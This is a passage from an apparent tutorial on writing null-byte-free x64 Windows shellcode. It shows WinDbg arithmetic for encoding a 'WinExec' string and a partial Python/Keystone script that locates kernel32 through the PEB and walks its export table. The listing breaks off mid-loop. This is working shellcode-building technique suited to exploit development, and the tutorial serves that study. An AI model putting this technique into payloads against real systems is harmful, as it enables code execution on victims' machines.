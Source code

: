 The same procedure as mentioned above is followed:

```
0:003> ? 0x00636578456E6957 << 8
Evaluate expression: 7162263022003115776 = 63657845`6e695700
0:003> ? (63657845`6e695700|0xFF)
Evaluate expression: 7162263022003116031 = 63657845`6e6957ff
0:003> ? 63657845`6e6957ff >> 8
Evaluate expression: 27977589929699671 = 00636578`456e6957
```

The code to add to the script is the following:

```
"   mov rax, 0x636578456E6957FF;"   # Load the calculated initial value
"   shr rax, 0x8;"                  # Shift right by 8 bits to get the desired WinExec string
```

### Final Code

```
import ctypes, struct
import os
import subprocess
from keystone import *
 
def main():
    SHELLCODE = (
        " start: "
        # "   int3;"                        # Breakpoint
        # "  sub rsp, 0x208;"               # Free up space in the stack (Null Byte)
        "   add rsp, 0xfffffffffffffdf8;"   # Free up space in the stack (Fix)
        " locate_kernel32:"
        "   xor rcx, rcx;"                  # Null RCX content
        "   mov rax, gs:[rcx + 0x60];"      # +0x060 PEB
        "   mov rax, [rax + 0x18];"         # +0x018 PEB.Ldr
        "   mov rsi, [rax + 0x20];"         # +0x020 PEB.Ldr.InMemoryOrderModuleList
        "   lodsq;"                         # Loads qword from RSI into RAX
        "   xchg rax, rsi;"                 # Swap RAX & RSI
        "   lodsq;"                         # Loads qword from RSI into RAX
        "   mov rbx, [rax + 0x20];"         # RBX = Kernel32 base address
        "   mov r8, rbx; "                  # Copy Kernel32 base address to R8 register
        "   mov ebx, [rbx+0x3C];"           # Get offset to the PE header from the DOS header at offset 0x3C
        "   add rbx, r8; "                  # Calculate absolute address of PE header by adding base address of kernel32.dll
        # "   mov edx, [rbx+0x88];"         # Get Relative Virtual Address (RVA) of Export Address Table from PE header (Null Byte)
        # Fix below
        "   xor r12, r12;"                  # Zero out r12 to start fresh
        "   add r12, 0x88FFFFF;"            # Load r12 with a large number
        "   shr r12, 0x14;"                 # Right-shift r12 by 20 bits to get 0x88
        "   mov edx, [rbx+r12];"            # Move the value at rbx+0x88 into edx
        "   add rdx, r8;"                   # Convert RVA of Export Address Table to absolute address by adding base address
        "   mov r10d, [rdx+0x14];"          # Load number of exported functions from Export Address Table
        "   xor r11, r11;"                  # Zero out R11 to use it as a clean register
        "   mov r11d, [rdx+0x20];"          # Get RVA of the AddressOfNames from the Export Address Table
        "   add r11, r8;"                   # Convert AddressOfNames RVA to absolute address by adding base address
        "   mov rcx, r10;"                  # Initialize RCX with the number of functions (loop counter)
        "kernel32findfunction: "
```